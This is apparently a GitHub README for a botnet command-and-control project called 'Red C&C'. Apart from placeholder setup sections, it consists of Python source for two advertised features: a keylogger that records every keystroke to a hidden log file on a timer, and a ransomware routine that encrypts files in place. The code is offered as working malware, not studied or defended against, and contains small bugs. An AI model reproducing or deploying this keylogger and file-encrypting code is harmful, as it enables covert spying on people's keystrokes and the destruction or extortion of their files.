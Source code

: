 # Botnet-Command-Control
Explain what our program here!!!

### show how to install VMs & put links to the VM images we used. 

### Show how to initiate Command & Control server & create a symbolic link
```bash
```

## Some of Red C&C's Highlights
### Built-in Keylogger
```python
def on_press(key):
	global LOG
	try:
		LOG += str(key.char)
	except AttributeError:
		if key == key.space:
			LOG += ' '
		elif key == key.enter: LOG += '\n'
		elif key == key.backspace: LOG += ''
		elif key == key.ctrl: LOG += ' ctrl+'
		elif key == key.tab: LOG += '\t
		elif key == key.cmd: LOG += ' cmd+'
		else:
			LOG += str(key) # Append any other special key not handled above.

def log_to_file():
	if SYSTEM == 'Linux':
		f = open(LIN_DIR + 'log.txt', 'w')
		f.write(LOG)
	else:
		f = open(WIN_DIR + 'log.txt', 'w')
		f.write(LOG) # Write keystrokes to file.
	cycle = Timer(SECONDS_TO_LOG, log_to_file)
	cycle.daemon = True
	cycle.start()

def keylogger():
	listener = keyboard.Listener(on_press=on_press)
	try:
		if SYSTEM == 'Linux':
			os.mkdir(LIN_DIR)
		else:
			os.mkdir(WIN_DIR)
		log_to_file()
		listener.start()
	except OSError:
		pass
```
### Built-in Rasonware Operations.
```python
def crypto(action, *request):
	key_copy = ''

	def encrypt_it():
		to_encrypt = request
		with open(to_encrypt, 'rb') as inf:
			data = inf.read()
			with open(to_encrypt, 'wb') as ouf:
				key = Fernet.generate_key()
				key_copy = key
				cipher = Fernet(key)
				cipher_text = cipher.encrypt(data)
				ouf.write(cipher_text)
		return r'File encrypted... Key = ' + key_copy + '. Store this key for decryption.'
	
	def decrypt_it():
		to_encrypt, key = request
		with open(to_encrypt, 'rb') as inf:
			data = inf.read()
			with open(to_encrypt, 'wb') as ouf: 
				cipher = Fernet(key)
				plain_text = cipher.decrypt(data)
				ouf.write(plain_text)
		return r'File Decrypted...'
```
